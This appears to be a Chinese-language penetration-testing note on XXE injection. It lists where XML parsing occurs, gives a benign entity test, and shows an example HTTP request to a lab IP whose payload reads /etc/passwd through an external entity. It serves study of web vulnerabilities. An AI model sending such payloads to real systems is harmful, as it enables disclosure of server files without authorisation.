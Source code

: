 # XXE

`XML External Entity (XXE) Injection` 當 XML 資料未經適當清理或安全解析而從使用者控制的輸入中取得時，就會出現漏洞，這可能允許我們利用 XML 功能執行惡意操作。XXE漏洞可能會對Web應用程式及其後端伺服器造成相當大的損害，從洩漏敏感檔案到關閉後端伺服器，這就是為什麼它被OWASP視為[十大Web安全風險](https://owasp.org/www-project-top-ten/)之一。
{% endhint %}

## <mark style="color:red;">**1. 發現點**</mark>

* **聯繫表單（Contact Form）**：使用者提交的訊息可能被XML解析
* ALL XML
* **文件上傳功能**：應用允許上傳XML格式的文件，例如SVG、DOCX（ZIP包內含XML）
* **API請求（REST/SOAP）**：部分API使用XML作為請求格式
* **SSO（單點登入）**：某些SSO協議（如SAML）使用XML格式傳遞身份驗證數據
*   使用`<!DOCTYPE>` 定義實體來確認伺服器是否解析：

    ```xml
    <!DOCTYPE email [
      <!ENTITY test "XXE Test">
    ]>
    <email>
      &test;
    </email>
    ```

    **如果伺服器回應包含 `XXE Test`，代表存在XXE漏洞**。
* Example
* <pre class="language-xml"><code class="lang-xml">POST /submitDetails.php HTTP/1.1
  Host: 10.129.59.193
  User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 214
  Origin: http://10.129.59.193
  Connection: keep-alive
  Referer: http://10.129.59.193/

  &#x3C;?xml version="1.0" encoding="UTF-8"?>
    &#x3C;!DOCTYPE email [
      &#x3C;!ENTITY company SYSTEM "file:///etc/passwd">
    ]>
  &#x3C;root>
    &#x3C;name>hack&#x3C;/name>
  <strong>  &#x3C;tel>4324324&#x3C;/tel>
  </strong>  &#x3C;email>&#x26;company;&#x3C;/email>
    &#x3C;message>hackyou&#x3C;/message>
  &#x3C;/root>
  </code></pre>
